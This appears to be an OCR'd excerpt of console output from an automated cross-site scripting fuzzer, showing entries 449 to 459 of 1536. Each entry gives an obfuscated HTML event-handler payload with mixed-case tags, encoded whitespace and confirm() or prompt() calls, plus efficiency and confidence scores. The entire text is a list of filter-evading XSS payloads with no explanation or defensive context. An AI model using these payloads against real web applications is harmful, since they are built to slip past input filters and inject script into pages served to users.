  Progress: 449/1536
 
------------------------------------------------------------
 Payload: <D3v%0aONmOUSEOVER%0d=%0dconfirm()//v3dm0s 
 Efficiency: 91 
 Confidence: 10 
 Progress: 450/1536
 
------------------------------------------------------------
 Payload: <a%09oNmouSEOvEr+=+confirm()%0dx//v3dm0s 
 Efficiency: 91 
 Confidence: 10 
 Progress: 451/1536
 
------------------------------------------------------------
 Payload: <D3V%09oNMoUseOvER%0a=%0aa=prompt,a()//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 452/1536
 
 Progress: 453/1536
 
------------------------------------------------------------
 Payload: <d3V%09onPointERenTeR%0a=%0aconfirm()//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 454/1536
 
------------------------------------------------------------
 Payload: <d3V%0dONpoInTErENter%0d=%0dconfirm()%0dx//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 455/1536
 
------------------------------------------------------------
 Payload: <HTmL%09onpoInTEReNTer%0a=%0aconfirm()// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 456/1536
 
------------------------------------------------------------
 Payload: <HTml%0aoNpointerenter%0a=%0a(prompt)``%0dx// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 457/1536
 
------------------------------------------------------------
 Payload: <D3v%09oNpoInTeREnTER+=+(prompt)``//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 458/1536
 
------------------------------------------------------------
 Payload: <html%09oNmOuSeOVEr%09=%09a=prompt,a()// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 459/1536
 